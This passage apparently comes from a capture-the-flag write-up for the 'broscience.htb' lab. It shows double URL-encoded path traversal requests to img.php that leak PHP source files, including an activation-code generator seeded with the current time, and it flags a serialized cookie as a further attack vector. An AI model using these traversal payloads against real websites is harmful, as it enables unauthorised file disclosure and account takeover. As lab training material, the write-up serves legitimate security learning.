 ```php
}
?>
```

#### /var/www/html/includes/utils.php

Seems to be the script that generates activation codes and is used to update a cookie called **user-prefs**. Since **user-prefs** uses serialization this could be an attack vector during our next steps. 

```http
https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%39%25%36%65%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%37%33%25%32%66%25%37%35%25%37%34%25%36%39%25%36%63%25%37%33%25%32%65%25%37%30%25%36%38%25%37%30
```

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
...
```

#### /var/www/html/activate.php

Used to activate a freshly registered user account

```http
https://broscience.htb/%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%31%25%36%33%25%37%34%25%36%39%25%37%36%25%36%31%25%37%34%25%36%35%25%32%65%25%37%30%25%36%38%25%37%30
```

```php
if (isset($_GET['code'])) {
    // Check if code is formatted correctly (regex)
    if (preg_match('/^[A-z0-9]{32}$/', $_GET['code'])) {
        // Check for code in database
        include_once 'includes/db_connect.php';

        $res = pg_prepare($db_conn, "check_code_query", 'SELECT id, is_activated::int FROM users WHERE activation_code=$1');
        $res = pg_execute($db_conn, "check_code_query", array($_GET['code']));

        if (pg_num_rows($res) == 1) {
            // Check if account already activated
            $row = pg_fetch_row($res);
            if (!(bool)$row[1]) {
                // Activate account
                $res = pg_prepare($db_conn, "activate_account_query", 'UPDATE users SET is_activated=TRUE WHERE id=$1');
                $res = pg_execute($db_conn, "activate_account_query", array($row[0]));
                
                $alert = "Account activated!";
                $alert_type = "success";
            } else {
                $alert = 'Account already activated.';
```
